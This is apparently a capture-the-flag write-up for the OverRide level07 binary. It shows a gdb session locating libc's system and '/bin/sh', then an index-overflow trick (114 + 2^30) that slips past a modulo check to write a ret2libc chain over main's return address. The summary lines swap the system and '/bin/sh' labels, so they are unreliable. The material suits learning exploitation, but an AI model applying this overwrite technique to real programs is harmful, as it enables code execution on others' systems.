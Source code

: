 ```bash
level07@OverRide:~$ gdb level07 
(gdb) b store_number # store_number's call
Breakpoint 1 at 0x8048636
(gdb) b *0x080489f1 # main's ret call
Breakpoint 2 at 0x80489f1
(gdb) run

Starting program: /home/users/level07/level07 

Input command: store

Breakpoint 1, 0x08048636 in store_number ()
(gdb) x $ebp+0x8 #base at the store_number entry
0xffffd530:     0xffffd554 #here

(gdb) info proc map
from 0xf7e2c000 to 0xf7fd0000 #libc mapping

(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec # "/bin/sh" address

(gdb) info functions system
0xf7e6aed0  system # "system's address

(gdb) c
Continuing.
 Number: 1
 Index: 1
 Completed store command successfully

Input command: quit

Breakpoint 2, 0x080489f1 in main ()
(gdb) p/x $esp
$1 = 0xffffd71c #main's ret adress
(gdb) c
Continuing.
[Inferior 1 (process 1842) exited normally]
```

offset index = (return address - base) / 4
(0xffffd71c - 0xffffd554) / 4 = 0x1c8/4 = 114

system = 0xf7f897ec = 4160264172
"/bin/sh" = 0xf7e6aed0 = 4159090384

114 ≡ 0 (mod 3) → bloqué par “reserved for wil”. Utilise l’index équivalent 114 + 2^30 = 1073741938

```bash
Input command: store
Number: 4159090384
Index: 1073741938      # 114 + 2^30

Input command: store
Number: 1094795585 # facultatif
Index: 115

Input command: store
Number: 4160264172
Index: 116
```